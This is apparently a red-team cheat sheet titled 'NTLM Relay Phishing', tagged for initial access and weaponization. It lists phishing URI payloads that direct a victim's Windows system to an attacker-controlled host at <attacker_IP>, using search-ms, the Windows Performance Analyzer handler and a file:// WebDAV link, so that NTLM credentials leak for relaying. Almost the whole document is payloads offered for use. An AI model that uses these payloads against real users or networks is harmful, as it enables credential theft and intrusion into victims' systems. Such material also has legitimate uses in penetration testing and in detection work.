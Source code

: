 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - initial-access
  - weaponization
  - sniffing-and-spoofing
  - ntlm
  - relay
  - phishing
  - network-protocols
  - smb
---
```

# NTLM Relay Phishing

## 01 - MSQuery

```
search-ms://query=<anything>&subquery=\\<attacker_IP>\<anything>.search-ms

search-ms://query=<anything>&crumb=location:\\<attacker_IP>\<anything>
```

## 02 - Windows Performance Analyzer

```
wpa:////<attacker_IP>/<anything>
```

## 03 - LibreOffice and Microsoft Office

WebDAV link.

```
file://<attacker_IP>/snare
```